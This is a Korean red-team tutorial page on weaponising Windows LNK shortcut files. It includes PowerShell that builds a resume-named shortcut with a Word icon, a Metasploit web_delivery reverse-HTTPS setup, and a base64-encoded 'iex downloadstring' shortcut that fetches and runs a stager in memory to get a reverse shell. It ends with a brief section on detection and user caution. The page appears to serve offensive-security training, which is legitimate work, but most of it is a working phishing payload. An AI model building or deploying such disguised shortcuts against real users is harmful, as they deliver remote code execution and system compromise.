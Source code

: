 # LNK

윈도우의 바로가기 파일은 `.LNK` 확장자를 갖고 있으며, 최대 255자의 `targetpath` 파라미터와 4096자의 `argument` 를 실행할 수 있다. 초기 침투 시 단일 파일로 사용될 수도 있지만, 짧은 커맨드 길이 때문에 다른 페이로드들을 실행시키는데 더 자주 사용된다.&#x20;

수 많은 조합들이 있지만, 자주 사용 되는 조합은 다음과 같다.&#x20;

* lnk -> Powershell -> 인 메모리 실행&#x20;
* lnk -> .dll download -> DLL side loading / DLL hijacking / LOLBAS with regsvr32.dll&#x20;
* lnk -> Powershell -> HTA&#x20;
* lnk -> .exe + DLL sideloading&#x20;

DLL 사이드로딩과 관련된 APT 29의 LNK + DLL Sideloading 기법은 다음 페이지에서 볼 수 있다 (TODO)&#x20;

### 실습&#x20;

다음은 `cmd.exe` 바이너리를 실행하는 간단한 LNK 파일을 만드는 파워쉘 명령어다.&#x20;

```
$obj = New-object -comobject wscript.shell
$link = $obj.createshortcut("c:\opt\lnk\Choi_Resume_CV_Dialog.lnk")
$link.windowstyle = "7"
$link.targetpath = "%windir%/system32/cmd.exe"
$link.iconlocation = "C:\Program Files (x86)\Microsoft Office\root\Office16\WORDICON.exe"
$link.arguments = "/c start cmd.exe"
$link.save()
```

마이크로소프트 워드의 아이콘을 갖은 LNK 파일을 생성해낸다. 오른쪽 클릭해서 shortcut을 확인해보면 `Target` 에 위에서 만든 페이로드인 `%windir%/system32/cmd.exe` 를 실행한다.&#x20;

![](<../../.gitbook/assets/image (10) (1).png>)

### 실습 - 2&#x20;

다음은 파워쉘 페이로드를 가져와 메모리상에서 실행하는 방법이다. 악용을 막기 위해 AMSI bypass 등은 실행하지 않는다. 먼저 개념 증명용 페이로드를 위해 메타스플로잇을 사용한다.&#x20;

```
msfconsole 
use exploit/multi/script/web_delivery
set pyaload windows/x64/meterpreter/reverse_https 
set lhost <ip> 
set lport <port> 
exploit 

[*] Exploit running as background job 5.
[*] Exploit completed, but no session was created.

[*] Started HTTPS reverse handler on https://192.168.40.182:443
[*] Using URL: http://192.168.40.182:8080/3XQSv3
[*] Server started.
[*] Run the following command on the target machine:
msf6 exploit(multi/script/web_delivery) > powershell.exe -nop -w hidden -e <....>
```

웹 딜리버리를 실행시키면 스테이저 파일이 호스팅된 URL이 나온다. 위 예시의 경우 `http://192.168.40.182:8080/3XQSv3` 여기에 스테이저가 호스팅 되어 있다. 따라서 해당 파일을 메모리상에서 실행하는 LNK 파일을 만들어준다.&#x20;

```
$command = 'iex(new-object net.webclient).downloadstring("http://192.168.40.182:8080/3XQSv3")'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)

$obj = New-object -comobject wscript.shell
$link = $obj.createshortcut("C:\testdefender\Choi_Resume.lnk")
$link.windowstyle = "7"
$link.targetpath = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
$link.iconlocation = "C:\Program Files (x86)\Microsoft Office\root\Office16\WORDICON.exe"
$link.arguments = "-Nop -w hidden -enc $($encodedCommand)"
$link.save()
```

작전 보안과 방어 우회를 위해서는 호스팅 되어있는 스테이저 파일에 AMSI 우회 코드를 넣어주면 된다. 이 실습은 개념 증명용이니 넘어간다. 해당 LNK 파일을 만들고 실행하면 리버스 쉘을 받을 수 있다.&#x20;



### 대응 방안&#x20;

LNK 파일은 윈도우의 기본적인 바로가기 파일이기 때문에 기술적으로 비활성화 시킬수는 없다. 단, LNK 파일의 `targetPath` 과 `arugments` 에 들어가는 페이로드는 엔드포인트의 디스크위에 쓰일 수 밖에 없다. 따라서 AV/EDR 등의 엔드포인트 방어 솔루션들이 LNK 파일을 잘 분석한다면 충분히 막을 수 있을 것이다. 실제로 간단한 파워쉘 페이로드를 실행시키려고 하면 왠만한 페이로드들은 모두 막힌다.&#x20;

엔드 유저의 입장에서는 LNK 파일에 주의한다. LNK 파일은 기본적으로 확장자가 보이지 않기 때문에 파일 익스플로러에서 `Shortcut` 혹은 `바로가기` 가 있다면 오른쪽 클릭을 해서 `TargetPath` 를 한 번 살펴보는 습관을 들인다.&#x20;

![](<../../.gitbook/assets/image (7).png>)



### 레퍼런스&#x20;

{% embed url="https://www.mcafee.com/blogs/other-blogs/mcafee-labs/rise-of-lnk-shortcut-files-malware/" %}

{% embed url="https://docs.google.com/viewerng/viewer?url=https://adsecurity.org/wp-content/uploads/2016/09/DerbyCon6-2016-AttackingEvilCorp-Anatomy-of-a-Corporate-Hack-Presented.pdf" %}
